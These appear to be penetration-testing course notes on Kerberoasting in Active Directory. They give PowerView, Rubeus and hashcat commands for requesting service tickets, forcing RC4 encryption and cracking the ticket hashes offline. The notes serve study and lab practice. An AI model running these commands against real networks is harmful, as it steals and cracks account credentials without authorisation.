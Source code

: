 
### **1. Encryption Types in Kerberoasting**

#### **Encryption Type Overview**
- **RC4 (etype 23)**:
  - Easier and faster to crack.
  - Most Kerberoasting tools default to requesting RC4-encrypted tickets.
- **AES (etype 17/18)**:
  - AES-128 (etype 17) and AES-256 (etype 18) are much harder to crack due to stronger encryption.
  - Cracking AES-encrypted tickets requires significantly more resources and time.

#### **Example: Checking Encryption Type with PowerView**
```powershell
 Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

- **Output**:
  - **msds-supportedencryptiontypes = 0**: Defaults to RC4 encryption.
  - **msds-supportedencryptiontypes = 24**: Supports AES-128/256 encryption only.



### **2. Key Commands for Kerberoasting**

#### **Retrieve Tickets with RC4 Encryption**
- Use **Rubeus** to request TGS tickets for a target SPN account:
```powershell
 .\Rubeus.exe kerberoast /user:testspn /nowrap
```

- **Output**:
  - The hash will begin with `$krb5tgs$23$*`, indicating RC4 encryption.

#### **Retrieve AES-Encrypted Tickets**
- If the SPN account supports AES, tickets will begin with `$krb5tgs$18$*` (AES-256) or `$krb5tgs$17$*` (AES-128).


### **3. Cracking Kerberos Hashes**

#### **For RC4-Encrypted Tickets**
- Crack with Hashcat (etype 23, TGS-REP):
```bash
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```

#### **For AES-Encrypted Tickets**
- Crack with Hashcat (etype 18, TGS-REP for AES-256):
```bash
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```


### **4. Downgrading to RC4 Encryption**
- Use Rubeus to force RC4 encryption for accounts that support AES:
```powershell
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /tgtdeleg /nowrap
```
- **Note**: This method doesn’t work against Windows Server 2019 DCs, which enforce the highest available encryption type.
